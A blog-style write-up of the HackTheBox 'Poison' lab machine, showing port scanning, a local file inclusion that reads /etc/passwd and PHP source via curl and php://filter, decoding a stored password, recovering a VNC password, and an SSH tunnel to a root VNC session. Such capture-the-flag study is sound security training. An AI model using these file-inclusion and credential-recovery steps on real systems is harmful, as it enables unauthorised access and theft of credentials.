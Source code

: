 ```yaml
---
title: "Hack the box - Poison"
date: 2018-08-10T11:28:47+02:00
draft: false
---
```


This is my writeup of the [poison](https://www.hackthebox.com/machines/poison) machine from HackTheBox.eu.
The machine is currently 138 days old, it has 6955 user owns and 4330 system owns, and is rated 3.8 in difficulty.

![HTB status](htb-status.png)

## Scanning and Enumeration

I started out with a scan of the machine to find any open ports `nmap -Pn -p1-65535 -A -v -sS 10.10.10.84`. The resulting [scan](nmap_scan) showed the following open ports

- 22 OpenSSH 7.2 (FreeBSD 20161230; protocol 2.0)
- 80 Apache/2.4.29 (FreeBSD) PHP/5.6.32
- 5802/tcp open http Bacula http config
- 5902/tcp open vnc VNC (protocol 3.8)
- 5903/tcp open vnc VNC (protocol 3.8)
- 6002/tcp open X11 (access denied)
- 6003/tcp open X11 (access denied)

I noticed a lot of VNC sessions, but decided to start out with the web server.

## Owning User

When I opened the site the following screen greeted me

![index](index.png)

Without testing the scripts the website suggested, I immediately tested for local file include (LFI) and remote file inclusion (RFI). This lead me somewhat off track as I only needed the scripts in order to own the user.

First, I manually tried to get LFI by including `../../../../../etc/passwd`. This succeeded (see [/etc/passwd/](passwd)), and I found the `charix` user at the very bottom (this is also the name of the machine creator).

```sh
$ curl http://10.10.10.84/browse.php?file=../../../../../etc/passwd
# $FreeBSD: releng/11.1/etc/master.passwd 299365 2016-05-10 12:47:36Z bcr $
#
root:*:0:0:Charlie &:/root:/bin/csh
toor:*:0:0:Bourne-again Superuser:/root:
---- snip ----
charix:*:1001:1001:charix:/home/charix:/bin/csh

```

Trying different php LFI techniques (see [PayloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/File%20Inclusion%20-%20Path%20Traversal)) I could leverage `php://filter` to get the source code for the vulnerable inclusion script

```sh
$ curl -s "http://10.10.10.84/browse.php?file=php://filter/convert.base64-encode/resource=browse.php" | base64 -d
<?php
include($_GET['file']);
?>
```

Further LFI fuzzing using `dirb` and the `LFI-jhaddix` file from SecLists gave me a lot of files, from which I could not use anything `dirb http://10.10.10.84/browse.php?file= SecLists/Fuzzing/LFI-JHADDIX.txt  -f`. See [LFI-results](fuzz_lfi-jhaddix) for the files it got me.

Getting back on track using the scripts the website suggested my:
Using list-files got me

```php
Array
(
    [0] => .
    [1] => ..
    [2] => browse.php
    [3] => index.php
    [4] => info.php
    [5] => ini.php
    [6] => listfiles.php
    [7] => phpinfo.php
    [8] => pwdbackup.txt
)
```

Reading `pwdbackup.txt` got me

```base64
Vm0wd2QyUXlVWGxWV0d4WFlURndVRlpzWkZOalJsWjBUVlpPV0ZKc2JETlhhMk0xVmpKS1IySkVU
bGhoTVVwVVZtcEdZV015U2tWVQpiR2hvVFZWd1ZWWnRjRWRUTWxKSVZtdGtXQXBpUm5CUFdWZDBS
bVZHV25SalJYUlVUVlUxU1ZadGRGZFZaM0JwVmxad1dWWnRNVFJqCk1EQjRXa1prWVZKR1NsVlVW
M040VGtaa2NtRkdaR2hWV0VKVVdXeGFTMVZHWkZoTlZGSlRDazFFUWpSV01qVlRZVEZLYzJOSVRs
WmkKV0doNlZHeGFZVk5IVWtsVWJXaFdWMFZLVlZkWGVHRlRNbEY0VjI1U2ExSXdXbUZEYkZwelYy
eG9XR0V4Y0hKWFZscExVakZPZEZKcwpaR2dLWVRCWk1GWkhkR0ZaVms1R1RsWmtZVkl5YUZkV01G
WkxWbFprV0dWSFJsUk5WbkJZVmpKMGExWnRSWHBWYmtKRVlYcEdlVmxyClVsTldNREZ4Vm10NFYw
MXVUak5hVm1SSFVqRldjd3BqUjJ0TFZXMDFRMkl4WkhOYVJGSlhUV3hLUjFSc1dtdFpWa2w1WVVa
T1YwMUcKV2t4V2JGcHJWMGRXU0dSSGJFNWlSWEEyVmpKMFlXRXhXblJTV0hCV1ltczFSVmxzVm5k
WFJsbDVDbVJIT1ZkTlJFWjRWbTEwTkZkRwpXbk5qUlhoV1lXdGFVRmw2UmxkamQzQlhZa2RPVEZk
WGRHOVJiVlp6VjI1U2FsSlhVbGRVVmxwelRrWlplVTVWT1ZwV2EydzFXVlZhCmExWXdNVWNLVjJ0
NFYySkdjR2hhUlZWNFZsWkdkR1JGTldoTmJtTjNWbXBLTUdJeFVYaGlSbVJWWVRKb1YxbHJWVEZT
Vm14elZteHcKVG1KR2NEQkRiVlpJVDFaa2FWWllRa3BYVmxadlpERlpkd3BOV0VaVFlrZG9hRlZz
WkZOWFJsWnhVbXM1YW1RelFtaFZiVEZQVkVaawpXR1ZHV210TmJFWTBWakowVjFVeVNraFZiRnBW
VmpOU00xcFhlRmRYUjFaSFdrWldhVkpZUW1GV2EyUXdDazVHU2tkalJGbExWRlZTCmMxSkdjRFpO
Ukd4RVdub3dPVU5uUFQwSwo=
```

Decoding it 13 times gives `Charix!2#4%6&8(0`, which enabled me to log in `ssh charix@10.10.10.84`.

## Owning Root

During the enumeration I saw a lot of VNC sessions. One of these were started by root

```sh
charix@Poison:/tmp % ps auxww  | grep vnc
root   529   0.0  0.9  23620  8872 v0- I    09:01   0:00.05 Xvnc :1 -desktop X -httpd /usr/local/share/tightvnc/classes -auth /root/.Xauthority -geometry 1280x800 -depth 24 -rfbwait 120000 -rfbauth /root/.vnc/passwd -rfbport 5901 -localhost -nolisten tcp :1
charix 777   0.0  0.0    412   328  3  R+   09:06   0:00.00 grep vnc
```

This could be the entry point to owning root but I didn't know how.
What I could see was that there was a `.vnc` folder in the home folder of the `charix`. It contained a `passwd` file with some gibberish.

```sh
$ cat /home/charix/.vnc/passwd | xxd -p
a7cd4c5eab70e29b
```

After some searching around I found that it was the obfuscated password of the user.
As it was obfuscated there had to be someone who could deobfuscate it. A long story short, the password is DES encrypted by a static key.
But deobduscating the password of Charix made no sense as I already had access as that user.
I stopped with the vnc attack vector.

When SSH'ing in, the file `secret.zip` was located in the home directory. I copied the file to my local machine and unzipped it, which revealed the file `secret`.

```sh
$ scp ssh charix@10.10.10.84:secret.zip
$ unzip secret.zip #unzipped the file 'secret'
$ xxd -p secret
bda85b7cd5967a21
```

The contents of the file looked very similar to the `passwd` file for the vnc service for the Charix user.
I then tried to use the deobfuscater I found earlier, and sure enough it gave me a password

```sh
$ git clone https://github.com/jeroennijhof/vncpwd.git
$ cd vncpwd
$ gcc -o vncpwd vncpwd.c d3des.c
$ ./vncpwd ../secret
Password: VNCP@$$!
```

I then tried to log on to session 1 (the session number can be seen in the `ps` output above)

```sh
$ vncviewer 10.10.10.84:1
vncviewer: ConnectToTcpAddr: connect: Connection refused
Unable to connect to VNC server
```

Bummer. The session started by root was probably protected somehow.

I found an [article](http://www.penguintutor.com/linux/tightvnc) describing how to secure TightVNC on a raspberry pi, by only allowing connections from localhost. To get access he would use ssh port forwarding:

```
$ ssh charix@10.10.10.84 -L 5901:localhost:5901
```

This creates a tcp listener on my Kali box on port 5900. When a connection is established on that port it forwards the traffic through ssh and makes a connection to localhost (on the poison machine) on port 5901.

With the tunnel set up I tried to connect again

```
$ vncviewer localhost:1
```

Success! It prompted for a password, and handed me a vnc session:

![Getting root flag](vnc_root.png)

I couldn't figure out how to copy from the session, and I had to manually copy it.
